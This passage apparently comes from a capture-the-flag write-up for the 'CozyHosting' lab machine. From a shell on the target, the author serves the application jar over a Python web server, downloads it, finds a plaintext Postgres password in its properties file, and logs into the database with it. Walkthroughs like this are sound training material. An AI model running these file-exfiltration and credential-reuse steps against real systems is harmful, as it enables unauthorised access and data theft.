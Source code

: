 Unsure what to do with `.jar`. Taking a hint, I learned I need `jd-gui` to view jar files better. Unfortunately, `jd-gui` is not working, the `.jar` file does not open in this app. When I `cat` the file it shows the HTML for the home page

It turns out that my syntax for `wget` was incorrect and I forgot to start a web server on the remote host.

Creating a web server from the remote host on port 9882:

```app@cozyhosting:/app$ python3 -m http.server 9882

python3 -m http.server 9882

10.10.14.83 - - [29/Feb/2024 18:14:01] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

Grabbing the file from my local host using wget:

```
-[Thu Feb 29-10:13:56]-[table@parrot]-
-[~]$ wget 10.10.11.230:9882/cloudhosting-0.0.1.jar
--2024-02-29 10:14:02-- http://10.10.11.230:9882/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:9882... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’
cloudhosting-0.0.1.jar 100%[=====================================================>] 57.47M 17.4MB/s in 3.5s
2024-02-29 10:14:06 (16.6 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

Now that I have the .jar file, I can unzip it and read the contents. Inside the .jar extract, we find a file containing postgres credentials:

```
-[Thu Feb 29-10:16:55]-[table@parrot]-
-[~/BOOT-INF/classes]$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Using this information we can assume there may be a postgres port open on the target machine and try to log in with the credentials:

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR
\list
List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
```
